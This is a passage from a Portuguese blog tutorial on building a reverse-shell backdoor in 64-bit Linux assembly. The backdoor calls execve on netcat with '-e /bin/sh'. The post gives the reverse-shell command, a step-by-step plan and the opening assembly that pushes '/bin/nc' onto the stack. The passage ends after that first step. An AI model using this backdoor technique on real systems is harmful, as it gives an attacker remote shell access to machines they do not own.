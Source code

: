 ```yaml
---
layout: post
title: writing backdoor in ASM linux 64 bits sycall Netcat
categories: [assembly]
tags: [asm ,asm 64 bit,syscall,netcat,linux]
fullview: true
comments: true
---
```

<p>No ultimo artigo falei sobre syscall linux asm 64 bits, demostrei alguns exemplos de como usa-la, estou tentando arrumar tempo para escrever mais sobre o assunto, que não deixa de ser interessante, em fim, voltando a falar sobre syscall, a ideia desse artigo é desenvolver um back connect em 'nasm' ou asm, usando a própria função execve() , como você pode ver é possível executar qualquer comando  desde que passe os comandos corretamente, um back connect poderia ser feito usando apenas asm, criando socket's, porém é muito mais complexo, seja ele um bind() ou reverse(). Nesse caso  lembra de todos passos feito em C, criar struct, declarar família, bzero() isso mesmo preencher a struct,e depois chamar a syscall number 49 que corresponde a  função bind() lembra do accept() accept(sock, (struct sockaddr *)&client, &sockaddr_len) a syscall dele é 43, e etc... é um trabalho e tanto criar do zero, analisaremos  um backdoor desse tipo futuramente :D, em fim,  podemos usar a  própria função que já conhecermos para  desenvolver tal façanha, um backdoor reverse() em asm.</p>
<h3>O que Será preciso ?</h3>
<p>Eu acho que você deve saber mais ou menos como irá funcionar, a ideia vai ser setar os argumento do comando nc, o canivete suíço como vários administradores de rede conhece, Com o netcat podemos simplesmente setar os comandos que precisamos para em fim executar um shell reversa seria mais ou menos assim nc meu_ip 4444 -e /bin/sh, esses são os argumentos que precisamos passar para stack e depois chamar syscall 59 que corresponde a execve() blz? tudo pronto ? vamos lá para nossa estratégia </p>
<h3>Estratégia Militar</h3>
<pre>
                     Missão  Executar Backdoor reverse()
=====================================================
Objetivo: execve("/bin/nc",{"/bin/nc","ip","1337","-e","/bin/sh"},NULL)
=====================================================
1 - colocar a string "bin/nc" na stack usando nosso fusileiro
2 - colocar a string  "bin/sh" no campo de batalha 'stack'
3 - colocar o argumento "-e" com uma sniper no campo de batalha
4 - colocar a string "1337" que é nossa  porta  para conexão reversa (colocar nosso fusileiro de Elite  na porta "1337")
5 - chamar nossa função  que contém uma DB com a string  do IP "127.0.0.1" (OBS: pegar o local onde a bomba seja lançada. )
6 -  empurrar todos argumento na stack (Retirar todos Fusileiro de Elite do campo de batalha)
7 -  Chamar a syscall 59 (Lançador de Míssil  bomba nuclear para o endereço 127.0.0.1)
8 -  Compilar e executar nosso plano de attack
9 - Shell reverse executando sucesso
</pre>
<h3>Colocando a Estratégia em prática.</h3>
<p>Vamos dar uma olha nos quais fusileiros nós temos.Registradores( R10, RCX,RBX,RDX ,R9,RDI)</p>
<p>Temos 6 homens que vão para o campo de batalha, nossa turma da Elite 1337 leet. e temos claro nossa arma nuclear lançador de Míssil Sys 59.</p>
<p>O nosso primeiro fusileiro RDX vai ser executar a parte inicial dele levar até a base inimiga (stack) a bomba c4, "bin/nc". </p>
{% highlight asm %}
; missão 01
BITS 64
xor    	rdx,rdx ; zerando rdx
mov 	rdi,0x636e2f6e69622fff
shr	rdi,0x08
push 	rdi
mov 	rdi,rsp
{% endhighlight %}